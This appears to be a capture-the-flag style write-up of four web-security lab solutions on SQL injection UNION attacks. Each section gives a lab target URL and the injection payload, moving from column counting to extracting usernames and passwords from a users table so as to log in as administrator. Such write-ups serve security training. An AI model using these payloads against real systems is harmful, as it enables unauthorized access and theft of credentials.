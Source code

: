# UNION attacks

## SQL injection UNION attack, determining the number of columns returned by the query

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.

Target URL:

```
https://aca31f9a1ef0c68680045fec007d0007.web-security-academy.net/filter?category=Gifts
```

Solution:

```sql
' UNION SELECT NULL,NULL,NULL--
```

Modified URL:

```
https://aca31f9a1ef0c68680045fec007d0007.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL--
```

## SQL injection UNION attack, finding a column containing text

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

Target URL:

```
https://ac6c1f941e2e562780c94cde00ea0047.web-security-academy.net/filter?category=Gifts
```

Solution:

```sql
' UNION SELECT NULL,'O2ILLb',NULL--
```

Modified URL:

```
https://ac6c1f941e2e562780c94cde00ea0047.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,'O2ILLb',NULL--
```

## SQL injection UNION attack, retrieving data from other tables

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

Target URL:

```
https://ac051fca1f14458380d541dd008a005e.web-security-academy.net/filter?category=Corporate+gifts
```

Solution:

```sql
' UNION SELECT username, password FROM users--
```

Modified URL:

```
https://ac051fca1f14458380d541dd008a005e.web-security-academy.net/filter?category=Corporate+gifts'+UNION+SELECT+username,+password+FROM+users--
```

## SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

Target URL:

```
https://acbf1f841e3d61b180d8c41a00c4008c.web-security-academy.net/filter?category=Corporate+gifts
```

Solution:

```sql
' UNION SELECT NULL, username || '~' || password FROM users--
```

Modified URL:

```
https://acbf1f841e3d61b180d8c41a00c4008c.web-security-academy.net/filter?category=Corporate+gifts'+UNION+SELECT+NULL,+username+||+'~'+||+password+FROM+users--
```
